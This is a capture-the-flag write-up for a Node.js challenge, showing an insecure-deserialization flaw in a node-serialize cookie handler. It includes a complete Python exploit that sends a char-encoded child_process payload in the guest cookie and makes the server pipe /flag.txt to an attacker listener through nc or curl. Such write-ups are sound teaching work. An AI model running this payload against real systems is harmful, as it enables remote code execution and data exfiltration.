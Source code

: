 # Sparta

RCE using insecure deserialization vulnerability in `server.js` file. 

## Enumeration
When I went to the challenge website, at first it didn't let me in because "Unsafe port". So I had to allow that port in firefox settings. 

After the small issue, I checked `server.js` file if it had something interesting. Immediately I saw that it required `node-serialize` module. Usually in ctf:s when serialize module is imported, challenge requires exploiting the unserialize feature. 

Then I scrolled down and found this odd POST request
```javascript
app.post('/guest', function(req, res) {

   if (req.cookies.guest) {
   	var str = new Buffer(req.cookies.guest, 'base64').toString();
   	var obj = serialize.unserialize(str);
   	if (obj.username) {
     	res.send("Hello " + escape(obj.username) + ". This page is currently under maintenance for Guest users. Please go back to the login page");
   }
 } else {
	 var username = req.body.username
	 var country = req.body.country
	 var city = req.body.city
	 var serialized_info = `{"username":"${username}","country":"${country}","city":"${city}"}`
     var encoded_data = new Buffer(serialized_info).toString('base64');
	 res.cookie('guest', encoded_data, {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello!");
});
```

We see that when doing a POST request to the `/guest` page, it first checks whether cookie `guest` exists. 

## Exploiting
I googled for how to get remote code execution with deserialization and I found this article: [Deserialization in node.js](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

The example code in the article looked pretty similar to the challenge code. I first created a serialized javascript object that the web application will deserialize and execute it.

```javascript
{"rce":"_$$ND_FUNC$$_function (){var exec = require('child_process').exec;exec('cat flag.txt'}()"}
```

Now I copied the python script from the article to generate the buffered data. However I edited the script to suit my needs. 

First I encoded the characters and added it to the `eval()` function. 
```python
print("[+] Crafting the payload")
NODEJS_REV_SHELL = f"var exec = require('child_process').exec;exec('cat /flag.txt | nc {ip} {port}');"

pchars = charencode(NODEJS_REV_SHELL)
load = "eval(String.fromCharCode(%s))" % (pchars)
```

Next I added the encoded payload into javascript object, which I had created before. After that I base64 encoded the whole object, because web application first decodes it from base64. 

```
payload = '''
{"rce":"_$$ND_FUNC$$_function (){%s}()"}
''' % (load)

payload = b64encode(payload.encode()).decode()
```

After that with requests module, I made a POST request to the website. 

### Problems
When I first launched the exploit, I didn't get any response back. Then I setup the docker and found out it didn't have netcat installed. Because of that I used curl to send the flag to my server. 
With this command I was able to send the flag
```bash
cat /flag.txt | curl {ip}:{port} -d @-
```

### Final exploit
```python
import sys
from base64 import b64encode
import requests

if len(sys.argv) != 4:
    print("Usage: %s <RHOST> <LHOST> <LPORT>" % (sys.argv[0]))
    sys.exit(0)

rhost = sys.argv[1]
ip = sys.argv[2]
port = sys.argv[3]

def charencode(string):
    """String.CharCode"""
    encoded = ''
    for char in string:
        encoded = encoded + "," + str(ord(char))
    return encoded[1:]

print(f"[+] lhost: {ip}")
print(f"[+] lport: {port}")

print("[+] Crafting the payload")
NODEJS_REV_SHELL = f"var exec = require('child_process').exec;exec('cat /flag.txt | curl {ip}:{port} -d @-');"

pchars = charencode(NODEJS_REV_SHELL)
load = "eval(String.fromCharCode(%s))" % (pchars)
payload = '''
{"rce":"_$$ND_FUNC$$_function (){%s}()"}
''' % (load)

payload = b64encode(payload.encode()).decode()

print(payload)
print(f"\n[+] Sending payload to {rhost}")
r = requests.post(f"{rhost}", cookies={"guest": payload})

```

Running the exploit returned the flag
```bash
POST / HTTP/1.1
Host: localhost
User-Agent: curl/7.64.0
Accept: */*
Content-Length: 53
Content-Type: application/x-www-form-urlencoded

zh3r0{4ll_y0u_h4d_t0_d0_w4s_m0v3_th3_0bjc3ts_3mper0r}
```

